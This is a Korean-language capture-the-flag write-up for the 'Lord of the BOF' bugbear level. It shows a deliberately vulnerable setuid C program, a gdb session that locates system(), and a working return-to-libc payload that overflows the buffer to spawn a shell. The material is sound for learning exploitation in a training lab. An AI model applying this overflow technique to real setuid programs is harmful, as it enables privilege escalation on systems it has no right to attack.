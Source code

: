 ```yaml
---
title: The Lord of the BOF - darkknight -> bugbear
slug: lob-darkknight
date: 2016-09-08 17:10:00 +0900 KST
categories: [write-up]
markup: mmark
---
```


return to library 개념 이해하기

아래는 문제의 코드

```c
/*
    The Lord of the BOF : The Fellowship of the BOF
    - bugbear
    - RTL1
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
    char buffer[40];
    int i;

    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }

    if(argv[1][47] == '\xbf')
    {
        printf("stack betrayed you!!\n");
        exit(0);
    }

    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```

이전 단계까지는 삽입한 쉘코드의 주소를 ret에 넣어서 쉘 권한을 얻어냈었다.

그런데 옛날부터 스택을 이용한 공격은 안된지 오래다.

그래서 RTL을 쓰는데...

ret 영역에는 system 함수 주소를 넣고,
system 함수에 인자로 ebp+8이 될 곳에 "/bin/sh" 문자열의 주소를 넣으면
문제를 풀 수 있다.

```console
$ cp bugbear augbear
$ ls -l
total 28
-rwxr-xr-x    1 darkknig darkknig    12043 Sep  2 09:05 augbear
-rwsr-sr-x    1 bugbear  bugbear     12043 Mar  8  2010 bugbear
-rw-r--r--    1 root     root          385 Mar 29  2010 bugbear.c
```

gdb랑 core 덤프용으로 bugbear를 augbear로 복사하고

```sh
gdb augbear -q
```

```c-objdump
(gdb) b main
Breakpoint 1 at 0x8048436
(gdb) r
Starting program: /home/darkknight/augbear

Breakpoint 1, 0x8048436 in main ()
(gdb) print system
$1 = {} 0x40058ae0 <__libc_system>
```

system 함수 주소를 알아내고

그리고 x/10000s 쳐서 "/bin/sh"를 찾아서 풀었다.

아래는 페이로드

```sh
./bugbear `python -c 'print "A"*44 + "\xe0\x8a\x05\x40" + "AAAA" + "\xf9\xbf\x0f\x40"'`
```
